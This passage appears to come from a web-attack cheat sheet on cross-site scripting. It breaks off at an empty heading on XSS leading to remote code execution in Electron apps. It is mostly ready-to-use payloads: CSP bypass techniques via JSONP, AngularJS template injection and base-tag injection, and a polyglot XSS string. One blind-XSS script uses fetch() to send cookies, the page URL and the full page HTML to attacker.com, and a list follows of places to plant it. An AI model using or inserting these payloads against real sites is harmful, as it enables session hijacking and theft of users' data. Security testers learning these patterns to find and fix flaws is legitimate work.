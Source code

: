 ### CSP Bypass

```javascript
// JSONP callback
// If CSP allows trusted domain with JSONP endpoint
<script src="https://trusted.com/jsonp?callback=alert"></script>

// AngularJS
// CSP: script-src 'self' and ng-app present
{{constructor.constructor('alert(1)')()}}

// Import scripts
<link rel="import" href="https://trusted-domain.com/xss.html">

// Base tag injection (if CSP allows 'self')
<base href="https://attacker.com/">
<script src="/script.js"></script>

// Service worker
navigator.serviceWorker.register('/sw.js');

// Dangling markup
<img src='https://attacker.com?
// Browser collects following content until ' is found
```

### Polyglot XSS

```javascript
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```

### Blind XSS

```javascript
// Payload for stealing tokens/cookies
<script>
fetch('https://attacker.com/log?cookie=' + document.cookie + '&url=' + window.location + '&dom=' + document.documentElement.innerHTML);
</script>

// Locations to test
# User profile fields
# Support ticket messages
# File names
# HTTP headers (User-Agent, Referer)
# Log viewers
# Admin panels
```

### XSS to RCE (Electron apps)
